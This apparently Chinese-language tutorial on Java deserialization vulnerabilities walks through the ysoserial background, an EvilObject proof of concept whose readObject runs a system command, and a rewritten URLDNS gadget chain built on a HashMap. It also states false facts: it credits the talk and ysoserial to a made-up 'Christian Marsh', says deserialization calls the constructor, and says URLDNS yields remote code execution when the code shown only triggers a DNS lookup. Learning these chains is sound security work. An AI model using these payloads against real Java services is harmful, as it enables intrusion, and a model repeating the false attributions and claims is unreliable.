


# Java反序列化学习

本人在学习Java反序列化中，发现网上大多都是自己分析一些逻辑内容，导致可能每一个版本的payload都不相同，对于学习时并不友好，所以我在学习了cc链之后，准备总结一下cc链中的内容，并以ysoserial的代码为主来记录调试分析ysoserial中的payload代码，并以此为学习路线。

ysoserial链接地址：https://github.com/frohoff/ysoserial

## 反序列化安全-背景故事

参考资料：

https://frohoff.github.io/appseccali-marshalling-pickles/

https://www.youtube.com/watch?v=KSA7vUkXGSg

2015年OWASP AppSec California大会上，Christian Marsh（Marsh）所做的一个关于Java反序列化漏洞的演讲的标题。由 **Christian "Marsh"**（当时为安全研究员）发表的，讲解了 Java 中的反序列化漏洞及其攻击原理。这个演讲不仅揭示了 Java 反序列化的安全风险，还在安全研究界引发了广泛关注，成为了反序列化漏洞研究的里程碑之一。这个演讲的内容重点讲解了如何利用Java反序列化漏洞，尤其是通过 **Marshalling** 和 **Pickles**（Pickle在这里指的是Java序列化过程中数据的载体）进行攻击。

### **Marshalling** 和 **Pickles** 的含义

- **Marshalling**：指的是将对象从内存中转换成可以存储或传输的格式（如字节流）的过程。简单来说，序列化即为Marshalling，它是将对象的状态转换为字节流，使其能够保存到文件或通过网络传输。
- **Pickles**：在演讲中，"Pickles" 是指Java序列化的数据。在序列化过程中，数据被“腌制”（pickle）成字节流格式，可以存储或传输。当这些字节流被反序列化时，它们被还原为原始的对象。

因此，“Marshalling Pickles”这个标题实际上是在描述Java反序列化的过程，尤其是在反序列化时，攻击者如何精心构造恶意的“腌制”（pickled）数据，进而触发Java中的反序列化漏洞。

### 演讲内容

在这个演讲中，Christian Marsh揭示了Java反序列化漏洞的利用原理，并展示了攻击者如何通过精心构造的“Pickles”数据来利用Java反序列化漏洞执行任意代码。

### 反序列化漏洞的工作原理

Java中的 **`ObjectInputStream`** 类提供了反序列化功能，允许开发者将字节流重新转换为对象。然而，这个过程可能带来安全隐患，因为恶意的字节流可以被用来触发反序列化时的漏洞，导致任意代码执行、信息泄露、认证绕过等问题。

演讲详细介绍了如何通过精心设计的恶意对象和类来利用反序列化漏洞。当一个类被反序列化时，Java的对象反序列化机制会自动调用类的构造函数和其他方法。如果这些类包含恶意代码（例如在构造函数或静态代码块中），则攻击者可以利用这一点执行恶意操作。

### `ysoserial` 工具的演示

**ysoserial** 是一个专门用来生成利用Java反序列化漏洞的载荷（payload）的工具。这个工具是由Christian Marsh等人开发的，用于演示Java反序列化漏洞的利用。演讲中展示了如何使用 **ysoserial** 工具生成恶意反序列化数据，并用它来触发反序列化漏洞。

具体来说，Marsh展示了如何利用 **Commons Collections** 这一流行的Java类库来构建反序列化攻击链。通过精心设计的反序列化数据，攻击者能够在反序列化时执行任意命令，比如执行系统命令或者加载恶意类。

### 攻击链和反序列化漏洞利用

演讲中的一个重要部分是 **攻击链**（Gadget Chain）的介绍。Java反序列化漏洞的利用往往需要利用多个类之间的依赖关系。这些类提供了看似无害的功能，但由于它们的某些方法可以在反序列化时被触发，攻击者可以将这些类组合起来，形成一个有效的攻击链。

**ysoserial** 工具就是用来生成这样的攻击链的，它允许攻击者通过多个“gadget”类（可以触发恶意代码的类）来构建攻击载荷。Marsh通过展示攻击链的具体构建过程，说明了如何将这些无害的类连接起来，触发攻击。

### 防御与修复措施

Marsh 在演讲中也提到了如何防御反序列化漏洞，主要包括：

- **禁用反序列化**：避免在应用中使用Java的原生序列化和反序列化机制，特别是当反序列化的数据来源不可信时。
- **输入验证**：对于反序列化的数据，必须进行严格的验证和过滤，确保只允许受信任的类。
- **限制反序列化的类**：通过白名单机制，只允许特定的类进行反序列化，防止攻击者利用恶意类。
- **使用其他安全的序列化方式**：例如使用JSON或XML格式来替代Java的默认序列化格式。

## Java反序列化漏洞的产生

### Java序列化 & 反序列化

序列化，又称为“串化”，可以形象的把它理解为把Java对象内存中的数据采编成一串二进制的数据，然后把这些数据存放在可以可以持久化的数据设备上，如磁盘。当需要还原这些数据的时候，在通过反序列化的过程，把对象又重新还原到内存中。

java.io.Serializable接口是可以进行序列化的类的标志性接口，该接口本身没有任何需要实现的抽象方法，它仅仅是用来告诉JVM该类的对象可以进行反序列化的，并且它的序列化ID由静态的serialVersionlUID变量提供。

   serialVersionlUID变量其实是一个静态的long型的常量，它的作用在序列化和反序列化的过程中，起到了一个辨别类的作用。在反序列化的时候，如果俩个类的类名完全相同，就通过serialVersionlUID老判断该类是否符合要求，如果不行，则抛出异常。

java的I/O提供了一对类用做对象的序列化和反序列化，主要包括ObjectInputStream和ObjectOutputStream。它们的用法与字节流相似，只不过此时处理的是对象，而不仅仅是字节数据了。

举个栗子：

```java
import java.io.*;
import java.util.Date;

public class CustomSerializable implements Serializable {

    // 序列化的字段
    private static final long serialVersionUID = 1L;
    private String name;
    private int age;
    private transient Date dateOfBirth;  // transient(瞬态字段) 表示这个字段不会被序列化

    public CustomSerializable(String name, int age, Date dateOfBirth) {
        this.name = name;
        this.age = age;
        this.dateOfBirth = dateOfBirth;
    }

    // Getter 和 Setter 方法
    public String getName() {
        return name;
    }

    public int getAge() {
        return age;
    }

    public Date getDateOfBirth() {
        return dateOfBirth;
    }

    // 重写 writeObject 方法来控制序列化过程
    private void writeObject(ObjectOutputStream oos) throws IOException {
        // 默认序列化
        oos.defaultWriteObject();

        // 自定义序列化逻辑：将 Date 转换为时间戳
        oos.writeLong(dateOfBirth.getTime());
    }

    // 重写 readObject 方法来控制反序列化过程
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        // 默认反序列化
        ois.defaultReadObject();

        // 自定义反序列化逻辑：将时间戳转换回 Date
        long timestamp = ois.readLong();
        this.dateOfBirth = new Date(timestamp);
    }

    @Override
    public String toString() {
        return "CustomSerializable{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", dateOfBirth=" + dateOfBirth +
                '}';
    }
}

```

使用以下代码来运行调试：

```java
// 测试序列化与反序列化
public static void main(String[] args) throws Exception {
    // 创建一个对象
    CustomSerializable obj = new CustomSerializable("John Doe", 30, new Date());

    // 序列化到文件
    ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("custom_serialized.ser"));
    oos.writeObject(obj);
    oos.close();

    // 从文件反序列化
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream("custom_serialized.ser"));
    CustomSerializable deserializedObj = (CustomSerializable) ois.readObject();
    ois.close();

    // 输出反序列化后的对象
    System.out.println("Deserialized Object: " + deserializedObj);
}
```

如果一个类中没有对反序列化中的对象加以限制，则可能会造成恶意的代码被触发执行。

为了更好的理解反序列化漏洞的产生过程，我们来调试一下对应的代码，使用以下代码：

```java
import java.io.*;
import java.lang.reflect.Constructor;

public class EvilObject implements Serializable {
    // 重写 readObject 方法，触发反序列化时的命令执行
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        try {
            // 这里会触发 calc 命令
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws Exception {
        // 创建一个恶意对象
        EvilObject evil = new EvilObject();

        // 序列化
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("evilObject.ser"));
        oos.writeObject(evil);
        oos.close();

        // 反序列化时执行 calc 命令
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("evilObject.ser"));
        ois.readObject(); // 这里会触发 readObject 方法，进而执行 calc 命令
        ois.close();
    }
}
```

我们可以在EvilObject中的readObject方法中打一个断点，然后debug调试一下



可以发现最终命中了readObject方法并命中了对应的代码，继续执行，则Runtime.getRuntime.exec("calc")被执行，计算器被弹出。

### URLDNS

URL（Uniform Resource Locator）是 Java 中用来表示资源地址的类，广泛应用于网络编程中，用于描述和操作网络资源的统一地址。在 Java 中，`URL` 类是 `java.net` 包的一部分，提供了一个简单而强大的 API 来处理资源的地址和与之相关的网络操作。`URL` 可以表示一个网页、文件、图片或任何可以通过网络访问的资源。

URLDNS是一个非常适合入门学习的反序列化漏洞，这个漏洞是反序列化危害的一个演示，原理是基于Java URL这个类。

URL中重写了hashCode方法，该方法比较两个URL类型的值。

```java
transient URLStreamHandler handler;
public synchronized int hashCode() {
    // 第一次调用时hashCode一定为-1
    // 如果多次调用hashCode方法，则hashCode字段一定不为-1，就不会触发后边的hashCode逻辑
    if (hashCode != -1)
        return hashCode;
	// handler是一个URLStreamHandler对象
    hashCode = handler.hashCode(this);
    return hashCode;
}
```

我们看一下对应的hashCode方法的实现：

```java
protected int hashCode(URL u) {
    ......
    // 调用获取host地址的方法
    InetAddress addr = getHostAddress(u);
    ......
}
protected InetAddress getHostAddress(URL u) {
    // 调用URL的获取host地址的方法
    return u.getHostAddress();
}
// 最终会调用到这个地方
synchronized InetAddress getHostAddress() {
    ......
    // 这个方法是获取IP地址的，也就是说如果我的host是一个域名，那么这里会先做一次DNS解析
    hostAddress = InetAddress.getByName(host);
    ......
}
```

总结一下：URL中有一个hashCode方法，有没有一种可能使得我们能够在反序列化时可以自动触发hashCode操作，为了达到这个目的，我们需要构建一个用来在反序列化时能够调用到URL对象的hashCode方法，ysoserial使用的是一个HashMap，为什么是HashMap，我们看一下HashMap的readObject方法：

```java
private void readObject(ObjectInputStream s)
        throws IOException, ClassNotFoundException {
	......
    // 关键点在于putVal方法，其中第一个参数值调用了hash方法
    for (int i = 0; i < mappings; i++) {
        @SuppressWarnings("unchecked")
            K key = (K) s.readObject();
        @SuppressWarnings("unchecked")
            V value = (V) s.readObject();
        putVal(hash(key), key, value, false, false);
    }
}
// 最终会调用key的hashCode方法
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

* 在反序列化一个 HashMap 时，会调用其中的 key 对象的 hashCode 方法计算 hash 值。这就可以触发之前讨论的 URL 对象 DNS 解析请求。如果反序列化一个 HashMap 对象中的 key 是 URL 对象，在反序列化时就会调用这个 URL 对象的 `hashCode` 方法，触发 DNS 解析查询。
* URL中的hashCode字段要修改为-1，这样才能在反序列化的时候执行到handler.hashCode()方法。

OK，所以现在来看一下ysoserial的代码

```java
public Object getObject(final String url) throws Exception {
    URLStreamHandler handler = new SilentURLStreamHandler();

    HashMap ht = new HashMap();
    // 这个写法等同于URL u = new URL(url)
    URL u = new URL(null, url, handler);
    // 把Map的key设置为URL对象 
    ht.put(u, url);
    // 这是ysoserial的小工具，将hashCode字段设置为-1
    Reflections.setFieldValue(u, "hashCode", -1);
    return ht;
}
```

改写ysoserial的代码，不使用工具类，而是使用原生方式来执行，这样更方便我们调试：

```java
public class URLDNS {
	static String serialFileName = "urldns.ser";
    public static void main(String[] args) throws Exception {
        mainYsoSerial();
        verify();
    }
    // 验证方法
    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object obj = (Object) ois.readObject();
    }
    // 改进的ysoserial中的URLDNS代码
    public static void mainYsoSerial() throws Exception {
        String serialFileName = "urldns.ser";
        String url = "https://www.baidu.com";
        URLStreamHandler handler = new SilentURLStreamHandler();

        HashMap ht = new HashMap();
        URL u = new URL(null, url, handler);
        Field hashCode = u.getClass().getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        // 改造了以下ysoserial的代码使得这里put的时候不会触发hashCode()方法
        hashCode.set(u, 0x1010);
        ht.put(u, url);
        // 在put完之后再把hashCode改成-1，这样在序列化时hashCode就是-1，然后反序列化时识别到-1之后，最终就会调用URL的hashCode()方法
        hashCode.setAccessible(true);
        hashCode.set(u, -1);

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(ht);
        oos.flush();
        oos.close();
        fos.close();
    }
    static class SilentURLStreamHandler extends URLStreamHandler {

        protected URLConnection openConnection(URL u) throws IOException {
            return null;
        }

        protected synchronized InetAddress getHostAddress(URL u) {
            return null;
        }
    }
}
```

但是这个代码并不是显示触发的，所以可以在URL代码类中的hashCode打一个断点即可判断代码是否被触发，如下：



代码被触发，执行了handler.hashCode方法。

### 总结

**URLDNS 漏洞** 是理解 **Java 反序列化漏洞** 的一个关键组成部分，它展示了如何通过不安全的 URL 解析和类加载机制，将远程攻击代码注入到反序列化过程中，进而触发 **远程代码执行（RCE）**。

实际的 **Java 反序列化漏洞学习路线** 中，URLDNS 漏洞是一个非常重要的课题，学习它将帮助你进一步掌握反序列化漏洞的不同利用方式以及防护方法。
